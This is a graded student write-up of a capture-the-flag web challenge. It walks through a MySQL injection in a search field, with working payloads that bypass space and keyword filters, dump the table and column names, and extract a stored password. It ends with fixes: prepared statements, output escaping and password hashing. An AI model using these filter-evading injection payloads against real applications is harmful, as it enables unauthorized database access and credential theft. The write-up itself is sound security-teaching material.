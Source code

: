 **Name:** flofriday

**Points:** 0.9 of 1.0 Points

**Feedback:** - Vulnerability: This section is missing where the SQL injection vulnerability is (in the abbreviation search field).

<hr>

# Constellations

## Overview

The application [Space! Data! Base!](https://constellations.hackthe.space/) allows the user to list all star constillations or search for specific ones. Moreover, there is a restricted area for which a password is needed.

## Vulnerability

The main vulnerability is an SQL injection and even tough there is some
validation on the input, this allows an attacker to read any table/row in the
database.

## Exploitation

During the Exploitation I was on a Call with █████,
█████ and █████, we discussed the our approaches
but we all came to the payloads on our own and didn't shared the flag.

Since this is a Web challenge and the [challenge description](https://hackthe.space/challenge/constellations) already points at to the MySQL database, I asumed that a SQL injection might be the vulnerability. So, to prove this hypothesis I tried the the following input (in the search field):

```
' OR 1=1 --
```

"Invalid character detected!", well there seams to be some character validation
in place. My next step was to figure out which characters would be deteced and
after some trial and error I found that only minus and space were detected.

To avoid the minus is quite easy, but I still needed a way to work around the
space limitation as SQL doestn't allow queries without separation like:
`Select*Fromtable;`. After some searching I found this [article](https://portswigger.net/support/sql-injection-bypassing-common-filters) which explains
how whitespace filters can be bypassed by an opening and closing comment. So
my next step was to try the payload from above again, addapted for the filters:

```
'OR/**/'1'='1
```

This imput returned only the first constellation, from which I concluded that there is propably a `LIMIT 1` in place (this assumption was later confirmed, when I received an Error which showed a part of the SQL Query with this Limit). Also with this query we now know that there is definitly an SQL injection.

To create queries faster (and easier to read) I wrote a simple python script
in a [Jupyter Notebook](https://jupyter.org/) to convert spaces to comments:

```python
query = "' OR '1'='1"
print(query.replace(' ', '/**/'))
```

Next, I tried to create a simple query to reflect some values. The part after the Union  needs to return 4 columns to match the original query:

```
'UNION/**/SELECT/**/'flotschi','was','here','!
```

However, this query resulted in the following Error:

```
Invalid query: SQLSTATE[42000]: Syntax error or access violation: 1064 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''flotschi','was','here','!' LIMIT 1' at line 1
```

After some trial and error I figured out that `"SELECT"` and `"select"` get
silently filtered, however mixed cases seam to bypass the filter, so from now on
I just capitalized the first letter of any keyword.

So with this change the query looked like the following and finally worked:

```
'Union/**/Select/**/'flotschi','was','here','!
```

My next goal was leak all table names, however I didn't wanted to only read
the first row but all, with one query, so I needed a way to convert all
resulting rows into a single row / single field. In the [aggregation function](https://dev.mysql.com/doc/refman/8.0/en/aggregate-functions.html) page in the MySQL documentation I found the function `JSON_ARRAYAGG()` which
does exactly that: Converting a result of muliple rows into a single
json-formatted string (`GROUP_CONCAT` seams to also work, but doesn't format
the output as nice).

With this newly aquired knoledge, I was ready to leak all tables:

```
'Union/**/Select/**/JSON_ARRAYAGG(table_name),1,2,3/**/From/**/information_schema.tables/**/Union/**/Select/**/1,2,3,'f
```

This query now returns all table names, and after all internal tables, we also
get the two custom tables `constellation_list` and `constellation_secrets`. Next,
I leaked the columns of the `constellations_secrets` table with:

```
'Union/**/Select/**/JSON_ARRAYAGG(column_name),1,2,3/**/From/**/information_schema.columns/**/Where/**/table_name='constellation_secrets'/**/Union/**/Select/**/1,2,3,'f
```

which resulted in the following response:
`["id", "constellation_id", "secretpaswd"]`.

Finally, I could read all secrets with the following query:

```
'Union/**/Select/**/JSON_ARRAYAGG(secretpaswd),1,1,1/**/From/**/constellation_secrets/**/Union/**/Select/**/1,1,1,'
```

From this I got `["nopeItsNotLupus", "EeLe9EiHNs5WDd5hnryw"]` and when we
enter `EeLe9EiHNs5WDd5hnryw` into the password field, we get the flag.

## Solution

SQL injections are an input validation vulnerability, therefore we can fix them
by validating the input, which in this case means to propably escape special
characters (like single quotes).

One solution would be to read the documentation of the used
DBMS to get the characters that need special treatment, and
escape them in the PHP code. However, the better (and faster) solution is to
use prepared statements, where the DB validates the input for us. This
solution is less prone to errors as the critical code is not written by us but
by the database developers and it is easier to port the application to another
database.

Here is a simple example how this might work:

```php
<?php
$db = new PDO(CONNECTION_STRING, DB_USER, DB_PASS);
$query = "SELECT name, abbreviation, origin, brightest_star  FROM constellations WHERE abbreviation=? LIMIT 1";
$stmt = $db->prepare($query);
$stmt->bindValue(1, $_POST['abbreviation']);
$stmt->execute();
$row = $result->fetch();
?>

...

<tr>
    <td><?php echo htmlspecialchars($row["name"], ENT_QUOTES, 'UTF-8') ?></td>
    <td><?php echo htmlspecialchars($row["abbreviation"], ENT_QUOTES, 'UTF-8') ?></td>
    <td><?php echo htmlspecialchars($row["origin"], ENT_QUOTES, 'UTF-8') ?></td>
    <td><?php echo htmlspecialchars($row["brightest_star"], ENT_QUOTES, 'UTF-8') ?></td>
</tr>
```

The constellations application, has a couple of other bad practises I would like to address.

First, the application allows [self-XSS](https://en.wikipedia.org/wiki/Self-XSS), this can easily be fixed with the PHP function `htmlspecialchars` and I already fixed it in the example above.

Next, the application stores passwords in clear text, which made it possible,
for me to exploit the app after having read access to the DB. This could have
been fixed by only storing the hash of the password in the DB. One could further
improve this by also storing a unique salt for each user, and instead of the
simple hash a salted hash. This would also defeat any use of any [Rainbow Tables](https://en.wikipedia.org/wiki/Rainbow_table)